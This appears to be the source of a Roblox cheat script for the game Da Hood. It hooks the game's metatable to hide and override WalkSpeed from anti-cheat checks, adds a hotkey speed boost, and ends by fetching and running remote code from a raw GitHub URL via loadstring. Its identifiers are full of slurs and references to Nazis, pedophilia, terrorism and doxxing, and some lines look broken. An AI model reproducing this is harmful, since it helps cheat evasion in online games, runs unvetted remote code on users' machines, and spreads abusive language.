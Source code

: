 repeat wait() until game:IsLoaded() 

getgenv().Fix = true

getgenv().TeclasWS = {
    ["tecla1"] = "M", -- speed +5
    ["tecla2"] = "N", -- speed -5
    ["tecla3"] = "v" -- toggle  
}



-- // servicios
local MININOS_DOXXEADOS = game:GetService("Players")
local AUDIOS_LOUD_DE_TRAP = game:GetService("StarterGui") or "son una mierda"

-- // objetos
local neonazi = MININOS_DOXXEADOS.LocalPlayer
local esvastica = neonazi:GetMouse()

-- // variables
local lista_de_victimas_de_drizzy = getrenv()._G
local da_hood_rblxm_REAL = getrawmetatable(game)
local CP = da_hood_rblxm_REAL.__newindex
local CP_DE_DRIZZY = da_hood_rblxm_REAL.__index
local velocidad_de_cum = 100
local es_pedofilo = true

-- // funciones para acortar codigo :]
function anunciar_atentado_terrorista(fecha_del_atentado)
    AUDIOS_LOUD_DE_TRAP:SetCore("SendNotification",{
        Title="Xlazui#2571",
        Text=fecha_del_atentado,
        Icon="rbxthumb://type=Asset&id=1332213374&w=150&h=150"
       })
end


getgenv().TECHWAREWALKSPEED_LOADED = true


wait(1.5)


anunciar_atentado_terrorista("Welcome"..TeclasWS.tecla3.."")

-- // conexiÃ³n
esvastica.KeyDown:Connect(function(el_impostor)
    if el_impostor:lower() == TeclasWS.tecla1:lower() then
        velocidad_de_cum = velocidad_de_cum + 1
        anunciar_atentado_terrorista(" (speed =   "..tostring(velocidad_de_cum)..")")
    elseif el_impostor:lower() == TeclasWS.tecla2:lower() then
        velocidad_de_cum = velocidad_de_cum - 1
        anunciar_atentado_terrorista(" (speed =  "..tostring(velocidad_de_cum)..")")
    elseif el_impostor:lower() == TeclasWS.tecla3:lower() then
        if es_pedofilo then
            es_pedofilo = false
            anunciar_atentado_terrorista("speed off")
        else
            es_pedofilo = true
            anunciar_atentado_terrorista("speed on")
        end
    end
end)

-- // mi parte favorita: metametodos
setreadonly(da_hood_rblxm_REAL,false)
da_hood_rblxm_REAL.__index = newcclosure(function(BEST_ON_TOP,IS_GARBAGE)
    local esPedofilo = checkcaller()
    if IS_GARBAGE == "WalkSpeed" and not esPedofilo then
        return lista_de_victimas_de_drizzy.CurrentWS
    end
    return CP_DE_DRIZZY(BEST_ON_TOP,IS_GARBAGE)
end)
da_hood_rblxm_REAL.__newindex = newcclosure(function(kaias,ip,logger)
    local unNeonazi = checkcaller()
    if es_pedofilo then
        if ip == "WalkSpeed" and logger ~= 0 and not unNeonazi then
            return CP(kaias,ip,velocidad_de_cum)
        end
    end
    return CP(kaias,ip,logger)
end)
setreadonly(da_hood_rblxm_REAL,true)

repeat wait() until game:IsLoaded()
local Players = game:service('Players')
local Player = Players.LocalPlayer

repeat wait() until Player.Character

local userInput = game:service('UserInputService')
local runService = game:service('RunService')

local Multiplier = -0.22
local Enabled = false
local whentheflashnoiq

userInput.InputBegan:connect(function(Key)
    if Key.KeyCode == Enum.KeyCode.LeftBracket then
        Multiplier = Multiplier + 0.01
        print(Multiplier)
        wait(0.2)
        while userInput:IsKeyDown(Enum.KeyCode.LeftBracket) do
            wait()
            Multiplier = Multiplier + 0.01
            print(Multiplier)
        end
    end

    if Key.KeyCode == Enum.KeyCode.RightBracket then
        Multiplier = Multiplier - 0.01
        print(Multiplier)
        wait(0.2)
        while userInput:IsKeyDown(Enum.KeyCode.RightBracket) do
            wait()
            Multiplier = Multiplier - 0.01
            print(Multiplier)
        end
    end

    if Key.KeyCode == Enum.KeyCode.P then
        Enabled = not Enabled
        if Enabled == true then
            repeat
                game.Players.LocalPlayer.Character.HumanoidRootPart.CFrame = game.Players.LocalPlayer.Character.HumanoidRootPart.CFrame + game.Players.LocalPlayer.Character.Humanoid.MoveDirection * Multiplier
                game:GetService("RunService").Stepped:waitn()
            until Enabled == true
        end
    end
end)

if Fix == true then
    loadstring(game:HttpGet("https://raw.githubusercontent.com/youtubetutorials123/helo/main/123"))()
end
